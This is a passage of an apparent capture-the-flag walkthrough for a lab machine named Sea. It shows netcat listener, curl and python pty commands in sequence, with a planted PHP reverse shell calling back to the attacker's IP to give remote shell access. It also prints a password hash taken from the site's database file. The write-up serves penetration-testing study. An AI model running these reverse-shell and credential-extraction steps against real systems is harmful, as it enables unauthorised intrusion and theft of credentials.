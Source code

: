 ```shell-session


starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Next we should use the xss payload on the victim.
![[Pasted image 20240814145555.png]]

Next we start a netcat listener.
```shell-session
# nc -nlvp 6666
listening on [any] 6666 ...
```

Then we activate the reverse shell.
```shell-session
# curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.59&lport=6666'
```

Finally we get a shell.
```shell-session
# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.59] from (UNKNOWN) [10.10.11.28] 39350
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 11:53:43 up  1:50,  3 users,  load average: 0.88, 0.95, 1.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We then upgraded the shell to be fully interactive.
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@sea:/$ ^Z
zsh: suspended  nc -nlvp 6666
                                                                                              
┌──(root㉿kali)-[~/…/Labs/Machines/Easy/Sea]
└─# stty raw -echo;fg
[1]  + continued  nc -nlvp 6666

www-data@sea:/$ export TERM=xterm-256color
www-data@sea:/$ stty rows 21 columns 94
www-data@sea:/$
```

Looking at the database file we have a password.
```shell-session
www-data@sea:/var/www/sea/data$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/14 12:41:07": "127.0.0.1",
            "2024\/08\/14 12:40:57": "127.0.0.1",
            "2024\/08\/14 12:40:26": "127.0.0.1",
            "2024\/08\/14 12:39:56": "127.0.0.1",
```